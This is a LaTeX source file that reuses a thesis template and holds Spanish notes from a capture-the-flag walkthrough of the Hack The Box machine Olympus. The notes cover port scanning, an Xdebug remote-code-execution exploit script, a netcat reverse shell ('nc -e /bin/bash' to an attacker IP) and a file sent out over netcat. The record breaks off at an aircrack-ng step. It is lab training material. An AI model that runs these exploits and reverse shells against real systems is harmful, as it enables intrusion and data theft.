% This is the Reed College LaTeX thesis template. Most of the work
% for the document class was done by Sam Noble (SN), as well as this
% template. Later comments etc. by Ben Salzberg (BTS). Additional
% restructuring and APA support by Jess Youngberg (JY).
% Your comments and suggestions are more than welcome; please email
% them to cus@reed.edu
%
% See http://web.reed.edu/cis/help/latex.html for help. There are a
% great bunch of help pages there, with notes on
% getting started, bibtex, etc. Go there and read it if you're not
% already familiar with LaTeX.
%
% Any line that starts with a percent symbol is a comment.
% They won't show up in the document, and are useful for notes
% to yourself and explaining commands.
% Commenting also removes a line from the document;
% very handy for troubleshooting problems. -BTS

% As far as I know, this follows the requirements laid out in
% the 2002-2003 Senior Handbook. Ask a librarian to check the
% document before binding. -SN

%%
%% Preamble
%%
% \documentclass{<something>} must begin each LaTeX document
\documentclass{assets/ipesethesis}
% Packages are extensions to the basic LaTeX functions. Whatever you
% want to typeset, there is probably a package out there for it.
% Chemistry (chemtex), screenplays, you name it.
% Check out CTAN to see: http://www.ctan.org/
%
\usepackage{assets/ipesethesis}
\usepackage{assets/EPFLletter50}
%\usepackage{lua_styling}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% SOME COMMANDS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newcommand\conclimits[1]{\textcolor{black}{\textbf{#1}}}
\hyphenation{Multi-}
\hyphenation{decision-making}
\newcommand{\sqrfinal}{\textcolor{teal}{$\blacksquare$}} % end mark
\newcommand{\setfont}[2]{{\fontfamily{#1}\selectfont #2}}
%\setfont{calligra}{This is Calligra font.}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% ACRONYMS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newacronym{emat}   {$\Delta T_{min}$}  {heat exchanger minimum approach temperature}
\newacronym{adt}    {adt}   {air-dried tonnes}
\newacronym{chp}    {CHP}   {combined heat and power}
\newacronym{ga}     {GA}    {genetic algorithm}
\newacronym{gbd}    {GBD}   {generalized Benders decomposition}
\newacronym{gcc}    {GCC}   {grand composite curve}
\newacronym{gdp}    {GDP}   {generalized disjuctive programming}
\newacronym{ghg}    {GHG}   {greenhouse gas}
\newacronym{gwp}    {GWP}   {global warming potential}
\newacronym{hen}    {HEN}   {heat exchanger network}
\newacronym{himan}  {HIMAN} {heat-integrated mass allocation network}
\newacronym{hiwan}  {HIWAN} {heat-integrated water allocation network}
\newacronym{hld}    {HLD}   {heat load distribution}
\newacronym{hrat}   {HRAT}  {heat recovery approach temperature}
\newacronym{icc}    {ICC}   {integer-cut constraint}
\newacronym{lp}     {LP}    {linear programming}
\newacronym{men}    {MEN}   {mass exchange network}
\newacronym{mer}    {MER}   {minimum energy requirement}
\newacronym{milp}   {MILP}  {mixed-integer linear programming}
\newacronym{minlp}  {MINLP} {mixed-integer nonlinear programming}
\newacronym{moo}    {MOO}   {multi-objective optimization}
\newacronym{mpec}   {MPEC}  {mathematical programming with equilibrium constraints}
\newacronym{nim}    {NIM}   {non-isothermal mixing}
\newacronym{nlp}    {NLP}   {nonlinear programming}
\newacronym{orc}    {ORC}   {organic Rankine cycle}
\newacronym{sa}     {SA}    {simulated annealing}
\newacronym{sic}    {SIC}   {specific investment cost}
\newacronym{tac}    {TAC}   {total annualized cost}
\newacronym{whr}    {WHR}   {waste heat recovery}

\makeglossaries
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% CHAPTERS' NAME
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newcommand{\thesistitle}           {Methodologies for simultaneous optimization of heat, mass, and power in industrial processes}

\newcommand{\intro}                 {Introduction}

\newcommand{\partone}               {The big trilemma:\\water--energy--waste nexus}
\newcommand{\partonetoc}            {The big trilemma: water--energy--waste nexus}

\newcommand{\partoneone}            {Survey of methodologies in \\ heat-integrated water allocation network}
\newcommand{\partoneonetoc}         {Survey of methodologies in heat-integrated water allocation network}

\newcommand{\partonetwo}            {Targeting methodology \\ with industrial application}
\newcommand{\partonetwotoc}         {Targeting methodology with industrial application}

\newcommand{\partonethree}          {Heat-integrated water allocation \\ network design}
\newcommand{\partonethreetoc}       {Heat-integrated water allocation network design}

\newcommand{\parttwo}               {Medium-temperature \\ heat recovery}
\newcommand{\parttwotoc}            {Medium-temperature heat recovery}

\newcommand{\parttwoone}            {Survey of methodologies in organic \\ Rankine cycle modeling and optimization}
\newcommand{\parttwoonetoc}         {Survey of methodologies in organic Rankine cycle modeling and optimization}

\newcommand{\parttwotwo}            {Optimal integration of organic Rankine \\ cycles in industrial processes}
\newcommand{\parttwotwotoc}         {Optimal integration of organic Rankine cycles in industrial processes}

\newcommand{\partthree}             {Towards the grand design}

\newcommand{\partthreeone}          {Holistic approaches: \\ background and motivation}
\newcommand{\partthreeonetoc}       {Holistic approaches: background and motivation}

\newcommand{\partthreetwo}          {Industrial application: kraft pulp mill}

\newcommand{\conc}                  {Concluding remarks}

\newcommand{\appendixLINEAR}        {Algorithm for outer and inner \\ approximation of thermal streams}
\newcommand{\appendixLINEARtoc}     {Algorithm for outer and inner approximation of thermal streams}

\newcommand{\appendixPARCOORD}      {Interactive parallel coordinate \\ visualization tool for fluid selection}
\newcommand{\appendixPARCOORDtoc}   {Interactive parallel coordinate visualization tool for fluid selection}

\newcommand{\appendixSOLVERSOPTIONS}{Assumptions and solver options for test cases}

\newcommand{\appendixTBDATA}        {Kraft pulp mill data}
  % include acronyms and also name of chapters

\usepackage{graphicx,latexsym}
\usepackage{amsmath}
\usepackage{amssymb,amsthm}
\usepackage{longtable,booktabs,setspace}
\usepackage{chemarr} %% Useful for one reaction arrow, useless if you're not a chem major
\usepackage[hyphens]{url}
% Added by CII
\usepackage{hyperref}
\usepackage{lmodern}
\usepackage{float}
\floatplacement{figure}{H}
% End of CII addition
\usepackage{rotating}

% Next line commented out by CII
%%% \usepackage{natbib}
% Comment out the natbib line above and uncomment the following two lines to use the new
% biblatex-chicago style, for Chicago A. Also make some changes at the end where the
% bibliography is included.
%\usepackage{biblatex-chicago}
%\bibliography{thesis}


% Added by CII (Thanks, Hadley!)
% Use ref for internal links
\renewcommand{\hyperref}[2][???]{\autoref{#1}}
\def\chapterautorefname{Chapter}
\def\sectionautorefname{Section}
\def\subsectionautorefname{Subsection}
% End of CII addition

% Added by CII
\usepackage{caption}
\captionsetup{width=5in}
% End of CII addition

% \usepackage{times} % other fonts are available like times, bookman, charter, palatino

% Syntax highlighting #22
  \usepackage{color}
  \usepackage{fancyvrb}
  \newcommand{\VerbBar}{|}
  \newcommand{\VERB}{\Verb[commandchars=\\\{\}]}
  \DefineVerbatimEnvironment{Highlighting}{Verbatim}{commandchars=\\\{\}}
  % Add ',fontsize=\small' for more characters per line
  \usepackage{framed}
  \definecolor{shadecolor}{RGB}{248,248,248}
  \newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
  \newcommand{\AlertTok}[1]{\textcolor[rgb]{0.94,0.16,0.16}{#1}}
  \newcommand{\AnnotationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.77,0.63,0.00}{#1}}
  \newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
  \newcommand{\BuiltInTok}[1]{#1}
  \newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
  \newcommand{\CommentVarTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\ConstantTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
  \newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{#1}}
  \newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
  \newcommand{\DocumentationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\ErrorTok}[1]{\textcolor[rgb]{0.64,0.00,0.00}{\textbf{#1}}}
  \newcommand{\ExtensionTok}[1]{#1}
  \newcommand{\FloatTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
  \newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\ImportTok}[1]{#1}
  \newcommand{\InformationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
  \newcommand{\NormalTok}[1]{#1}
  \newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
  \newcommand{\OtherTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{#1}}
  \newcommand{\PreprocessorTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
  \newcommand{\RegionMarkerTok}[1]{#1}
  \newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\SpecialStringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\VerbatimStringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\WarningTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}

% To pass between YAML and LaTeX the dollar signs are added by CII
\title{2021 - S4viNotes}
\author{Lo0pInG 404}
% The month and year that you submit your FINAL draft TO THE LIBRARY (May or December)
\date{updated on 2021-08-03}
\division{}
\unitname{}{}{}
\advisor{}
\institution{}
\scholardegree{}
%If you have two advisors for some reason, you can use the following
% Uncommented out by CII
% End of CII addition

%%% Remember to use the correct department!
\department{}
% if you're writing a thesis in an interdisciplinary major,
% uncomment the line below and change the text as appropriate.
% check the Senior Handbook if unsure.
%\thedivisionof{The Established Interdisciplinary Committee for}
% if you want the approval page to say "Approved for the Committee",
% uncomment the next line
%\approvedforthe{Committee}

% Added by CII
%%% Copied from knitr
%% maxwidth is the original width if it's less than linewidth
%% otherwise use linewidth (to make sure the graphics do not exceed the margin)
\makeatletter
\def\maxwidth{ %
  \ifdim\Gin@nat@width>\linewidth
    \linewidth
  \else
    \Gin@nat@width
  \fi
}
\makeatother

\renewcommand{\contentsname}{Table of Contents}
% End of CII addition

\setlength{\parskip}{0pt}

% Added by CII

\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}

\Acknowledgements{

}

\Dedication{

}

\Preface{

}

\Abstract{

}

% End of CII addition
%%
%% End Preamble
%%
%

\begin{document}

% Everything below added by CII
  \maketitle

\frontmatter % this stuff will be roman-numbered
\pagenumbering{roman}
%\pagestyle{empty} % this removes page numbers from the frontmatter


  \begin{resume}
    \hypertarget{preface}{%
    \section*{Preface}\label{preface}}
    \addcontentsline{toc}{section}{Preface}
    
    \hypertarget{introduction}{%
    \subsection*{Introduction}\label{introduction}}
    \addcontentsline{toc}{subsection}{Introduction}
    
    Este es el Notebook de los lives en Twitch del tito S4vitar. Aqui podreis encontrar los passos impotantes de cada maquina
    echa. Este book no tiene que estar considerado como una lista de Walktrough, pero mas como unas notas de technicas utilizadas
    durante la resolucion de maquinas. Por cierto no estara listado los passwords o algun usuarios, menos si estan utilizados en
    commandos.
    
    Cada maquina esta separada de la manera siguiente:
    
    \begin{itemize}
    \tightlist
    \item
      Introduccion y link del directo
    \item
      Fase de enumeracion
    \item
      Notas sobre las vulnerabilidades econtradas
    \item
      Explotacion de vulnerabilidades para ganar accesso a la maquina victima
    \item
      Parte de escalacion de privilegios
    \end{itemize}
    
    Espero que este book ayude a la comunidad.
    
    Todas las notas estan disponibles separadas por typos y categorias en el \href{https://looping404.michellopez.org}{hacking Notebook}.
    
    \hypertarget{acknoledgement}{%
    \subsection*{Acknoledgement}\label{acknoledgement}}
    \addcontentsline{toc}{subsection}{Acknoledgement}
    
    Me gustaria dar las gracias a S4vitar por su contenido de calidad y las ganas que mete a lo que hace para la comunidad.
    Son estas ganas que me motivaron en querer aprender mas y mas. Y como la mejor manera que tengo de aprender es tomando notas,
    este book no existiria sin el.
  \end{resume}




% Muz \phantomsection \printglossary[type=\acronymtype,title = List of Acronyms,nonumberlist] \addcontentsline{toc}{chapter}{List of acronyms} \cleardoublepage


  \hypersetup{linkcolor=black}
  \setcounter{tocdepth}{1}
  \tableofcontents


\mainmatter % here the regular arabic numbering starts
\pagestyle{fancyplain} % turns page numbering back on

\hypertarget{preface-1}{%
\chapter*{Preface}\label{preface-1}}
\addcontentsline{toc}{chapter}{Preface}

\hypertarget{introduction-1}{%
\section*{Introduction}\label{introduction-1}}
\addcontentsline{toc}{section}{Introduction}

Este es el Notebook de los lives en Twitch del tito S4vitar. Aqui podreis encontrar los passos impotantes de cada maquina
echa. Este book no tiene que estar considerado como una lista de Walktrough, pero mas como unas notas de technicas utilizadas
durante la resolucion de maquinas. Por cierto no estara listado los passwords o algun usuarios, menos si estan utilizados en
commandos.

Cada maquina esta separada de la manera siguiente:

\begin{itemize}
\tightlist
\item
  Introduccion y link del directo
\item
  Fase de enumeracion
\item
  Notas sobre las vulnerabilidades econtradas
\item
  Explotacion de vulnerabilidades para ganar accesso a la maquina victima
\item
  Parte de escalacion de privilegios
\end{itemize}

Espero que este book ayude a la comunidad.

Todas las notas estan disponibles separadas por typos y categorias en el \href{https://looping404.michellopez.org}{hacking Notebook}.

\hypertarget{acknoledgement-1}{%
\section*{Acknoledgement}\label{acknoledgement-1}}
\addcontentsline{toc}{section}{Acknoledgement}

Me gustaria dar las gracias a S4vitar por su contenido de calidad y las ganas que mete a lo que hace para la comunidad.
Son estas ganas que me motivaron en querer aprender mas y mas. Y como la mejor manera que tengo de aprender es tomando notas,
este book no existiria sin el.

\hypertarget{olympus}{%
\chapter*{Olympus}\label{olympus}}
\addcontentsline{toc}{chapter}{Olympus}

\hypertarget{introduccion}{%
\section*{Introduccion}\label{introduccion}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 22/07/2021 se llama Olympus.

El replay del live se puede ver en \href{https://www.twitch.tv/videos/1094808182}{Twitch: S4vitaar Olympus maquina}

\hypertarget{enumeracion}{%
\section*{Enumeracion}\label{enumeracion}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping}{%
\subsubsection*{Ping}\label{ping}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.83}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux

\hypertarget{nmap}{%
\subsubsection*{Nmap}\label{nmap}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.83}
\end{Highlighting}
\end{Shaded}

Que lento madre mia\ldots{}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.10.83 -oG allPorts}
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p53,80,2222 10.10.10.83 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
53 & domain & Domain zone transfer & Un nombre de dominio\tabularnewline
80 & http & whatweb, http-enum & Checkear la web\tabularnewline
2222 & ssh & conexion a la maquina & Usuario contraseña\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{empezamos-por-el-puerto-80}{%
\subsection*{Empezamos por el puerto 80}\label{empezamos-por-el-puerto-80}}
\addcontentsline{toc}{subsection}{Empezamos por el puerto 80}

\hypertarget{whatweb}{%
\subsubsection*{Whatweb}\label{whatweb}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.83}
\end{Highlighting}
\end{Shaded}

Nada interessante

\hypertarget{browsear-la-web}{%
\subsubsection*{Browsear la web}\label{browsear-la-web}}
\addcontentsline{toc}{subsubsection}{Browsear la web}

Hay una imagen, se nos occure steganografia pero no hay nada.

El Wappalyser no dice que el servidor web empleado es un Apache.

\hypertarget{wfuzz}{%
\subsubsection*{WFuzz}\label{wfuzz}}
\addcontentsline{toc}{subsubsection}{WFuzz}

Como no hay mucho mas que ver, applicaremos \textbf{fuzzing} para descubrir si hay mas rutas.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.83/FUZZ}
\end{Highlighting}
\end{Shaded}

No hay nada, creamos un fichero de extensiones txt, php, html y fuzzeamos otravez.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensions http://10.10.10.83/FUZZ.FUZ2Z}
\end{Highlighting}
\end{Shaded}

No hay nada.

\hypertarget{dig}{%
\subsubsection*{Dig}\label{dig}}
\addcontentsline{toc}{subsubsection}{Dig}

\textbf{Dig} a no confundir con dick ;) es una utilidad que nos permite recojer informaciones a nivel de dns.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Añadir la ip y el hostname en el /etc/hosts

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{10.10.10.83}\NormalTok{ olympus.htb}
\end{Highlighting}
\end{Shaded}
\item
  Lanzar \textbf{Dig} para recojer informaciones

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.83 olympus.htb}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

No hay respuesta valida lo que quiere decir que el dominio no es valido

\hypertarget{checkear-las-cabezeras-de-las-respuestas-a-lado-del-servidor}{%
\subsubsection*{Checkear las cabezeras de las respuestas a lado del servidor}\label{checkear-las-cabezeras-de-las-respuestas-a-lado-del-servidor}}
\addcontentsline{toc}{subsubsection}{Checkear las cabezeras de las respuestas a lado del servidor}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -X GET -s }\StringTok{"http://10.10.10.83/"}\NormalTok{ -I}
\end{Highlighting}
\end{Shaded}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/curl-xdebug} \caption{curl xdebug}\label{fig:unnamed-chunk-2}
\end{figure}

Algo interessante en la respuesta es el Xdebug 2.5.5. Xdebug es una extension de PHP para hacer debug con haremientas
depuracion tradicionales, desde el editor, tal como se hace en lenguajes de programacion clasicos. Mas informaciones sobre
Xdebug en \href{https://desarrolloweb.com/articulos/que-es-instalar-configurar-xdebug.html}{desarolloweb.com}

\hypertarget{vulnerability-assessment}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{searchsploit}{%
\subsection*{searchsploit}\label{searchsploit}}
\addcontentsline{toc}{subsection}{searchsploit}

Checkeamos si existe un exploit relacionado con \textbf{Xdebug 2.5.5}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ xdebug}
\end{Highlighting}
\end{Shaded}

Hay un script en Ruby (Metasploit) que permitiria hacer execucion de commandos. Analizamos el exploit con el commando

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -x xdebug}
\end{Highlighting}
\end{Shaded}

Que hace el exploit?

\begin{itemize}
\tightlist
\item
  esta tirando de index.php
\item
  se pone en escucha en el equipo de attackante en el puerto 9000
\item
  usa el commando eval
\item
  deposita en una ruta del servidor un fichero con su contenido en base64
\item
  executa el fichero con php
\item
  la peticion esta enviada por el methodo GET con \texttt{\textquotesingle{}Cookie\textquotesingle{}\ =\textgreater{}\ \textquotesingle{}XDEBUG\_SESSION=+rand\_text\_alphanumeric(10)\textquotesingle{}}
\end{itemize}

\hypertarget{pruebas-del-exploit}{%
\subsection*{Pruebas del exploit}\label{pruebas-del-exploit}}
\addcontentsline{toc}{subsection}{Pruebas del exploit}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha en el puerto 9000

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 9000}
\end{Highlighting}
\end{Shaded}
\item
  Enviamos un peticion GET con el XDEBUG\_SESSION en cookie

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.83/index.php"}\NormalTok{ -H }\StringTok{"Cookie: XDEBUG_SESSION=EEEEE"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Recivimos datos del lado del servidor.

\hypertarget{exploitacion-de-la-vulnerabilida}{%
\subsection*{Exploitacion de la vulnerabilida}\label{exploitacion-de-la-vulnerabilida}}
\addcontentsline{toc}{subsection}{Exploitacion de la vulnerabilida}

Buscamos un exploit en github y encontramos un script cortito que vamos a modificar y llamar exploit\_shell.py

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ socket}
\ImportTok{import}\NormalTok{ pdb}

\ImportTok{from}\NormalTok{ base64 }\ImportTok{import}\NormalTok{ b64encode}

\NormalTok{ip_port }\OperatorTok{=}\NormalTok{ (}\StringTok{'0.0.0.0'}\NormalTok{, }\DecValTok{9000}\NormalTok{)}
\NormalTok{sk }\OperatorTok{=}\NormalTok{ socket.socket()}
\NormalTok{sk.bind(ip_port)}
\NormalTok{sk.listen(}\DecValTok{10}\NormalTok{)}
\NormalTok{conn, addr }\OperatorTok{=}\NormalTok{ sk.accept()}

\ControlFlowTok{while} \VariableTok{True}\NormalTok{:}
\NormalTok{    client_data }\OperatorTok{=}\NormalTok{ conn.recv(}\DecValTok{1024}\NormalTok{)}
    \BuiltInTok{print}\NormalTok{(client_data)}

\NormalTok{    data }\OperatorTok{=} \BuiltInTok{input}\NormalTok{(}\StringTok{'>> '}\NormalTok{)}
\NormalTok{    data }\OperatorTok{=}\NormalTok{ data.encode(}\StringTok{'utf-8'}\NormalTok{)}
\NormalTok{    conn.sendall(b}\StringTok{'ebal -i -- '} \OperatorTok{+}\NormalTok{ b64encode(data) }\OperatorTok{+}\NormalTok{ b}\StringTok{'}\CharTok{\textbackslash{}x00}\StringTok{'}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Lanzamos el exploit

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ exploit_shell.py}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos una peticion GET

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.83/index.php"}\NormalTok{ -H }\StringTok{"Cookie: XDEBUG_SESSION=EEEEE"}
\end{Highlighting}
\end{Shaded}
\item
  En la mini shell abierta del exploit\_shell.py lanzamos un \textbf{whoami}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{system}\OtherTok{(}\StringTok{'whoami'}\OtherTok{)}    
\end{Highlighting}
\end{Shaded}
\item
  En la respuesta del \textbf{curl} se nos pone \emph{www-data}
\end{enumerate}

El exploit functionna y el commando \textbf{ifconfig} nos da una ip que no es la 10.10.10.83. Quiere decir que estamos
en un contenedor.

\hypertarget{vuln-exploit-gaining-access}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-la-vuln-xdebug}{%
\subsection*{Ganando accesso con la vuln XDebug}\label{ganando-accesso-con-la-vuln-xdebug}}
\addcontentsline{toc}{subsection}{Ganando accesso con la vuln XDebug}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha con netcat

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Con el exploit exploit\_shell.py lanzamos una reverse shell

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{system}\OtherTok{(}\StringTok{'nc -e /bin/bash 10.10.14.20 443'}\OtherTok{)}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

De esta manera, hemos ganado accesso al equipo.

\hypertarget{tratamiento-de-la-tty}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{investigamos-la-maquina}{%
\subsection*{Investigamos la maquina}\label{investigamos-la-maquina}}
\addcontentsline{toc}{subsection}{Investigamos la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /home}
\CommentTok{#Output}
\ExtensionTok{zeus}

\FunctionTok{ls}\NormalTok{ /home/zeus}
\CommentTok{#Output}
\ExtensionTok{airgeddon}
\end{Highlighting}
\end{Shaded}

\hypertarget{airgeddon.cap-crack-with-aircrack-ng}{%
\subsection*{Airgeddon.cap crack with Aircrack-ng}\label{airgeddon.cap-crack-with-aircrack-ng}}
\addcontentsline{toc}{subsection}{Airgeddon.cap crack with Aircrack-ng}

Airgeddon es una suite de utilidades para hacer auditorias wifi. Entrando en el repertorio airgeddon del usuario zeus encontramos
otro repertorio llamado captured. Filtrando el contenido del directorio aigedon por ficheros \texttt{find\ \textbackslash{}-type\ f} encontramos un fichero
\textbf{captured.cap}

Vamos a transferir el fichero captured.cap a nuestro equipo de attackante

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attackante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ captured.cap}
\end{Highlighting}
\end{Shaded}
\item
  En el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.28 443 }\OperatorTok{<}\NormalTok{ captured.cap}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Saviendo que Airgeddon es una utilidad de auditoria wifi intentamos ver lo que contiene el \textbf{captured.cap} con la utilidad \textbf{aircrack-ng}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ captured-cap}
\end{Highlighting}
\end{Shaded}

\begin{figure}
